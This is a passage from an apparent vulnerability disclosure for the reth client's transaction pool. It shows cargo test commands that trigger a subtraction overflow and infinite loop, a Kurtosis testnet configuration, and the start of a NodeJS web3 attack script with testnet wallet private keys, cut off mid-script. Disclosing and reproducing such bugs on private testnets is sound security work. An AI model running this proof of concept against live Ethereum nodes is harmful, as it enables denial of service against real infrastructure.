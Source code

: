 You can run it as a debug build to see the overflow:

```bash
cargo test --package reth-transaction-pool --lib -- pool::pending::tests::subtraction_overflow --exact --show-output
```

Or a release build to see the infinite loop:

```bash
cargo test --package reth-transaction-pool --lib --release -- pool::pending::tests::subtraction_overflow --exact --show-output
```

### Private testnet PoC

To further confirm that this exploit could actually occur, a test with a private Kurtosis testnet is provided below.

Use the following `network_params.yaml`:

```yaml
participants:
  - el_type: reth
    el_image: ghcr.io/paradigmxyz/reth
    cl_type: lighthouse
    cl_image: sigp/lighthouse:latest
    el_extra_params: ["--txpool.pending-max-count", "10"]
  - el_type: reth
    el_image: ghcr.io/paradigmxyz/reth
    cl_type: teku
    cl_image: consensys/teku:latest
port_publisher:
  el:
    enabled: true
    public_port_start: 32000
```

Note that we have substantially reduced the pending max count to make the demonstration more clear. Attacks with a larger/default configuration can still be accomplished, and I can supplement with such a PoC if needed.

Run with:

```bash
kurtosis run github.com/ethpandaops/ethereum-package --args-file ./network_params.yaml --enclave my-testnet
```

Now run the following script with NodeJS (Be sure to do `npm init` and `npm install web3` beforehand):

```javascript
const { Web3 } = require('web3');

const localWeb3 = new Web3('http://127.0.0.1:32002');
const externalWeb3 = new Web3('http://127.0.0.1:32007');

const wallets = [
  // local sender
  {
    "address": "0x8943545177806ED17B9F23F0a21ee5948eCaa776",
    "private_key": "bcdf20249abf0ed6d944c0288fad489e33f66b3960d9e6229c1cd214ed3bbe31"
  },
  // external senders
  {
    "address": "0xE25583099BA105D9ec0A67f5Ae86D90e50036425",
    "private_key": "39725efee3fb28614de3bacaffe4cc4bd8c436257e2c8bb887c4b5c4be45e76d"
  },
  {
```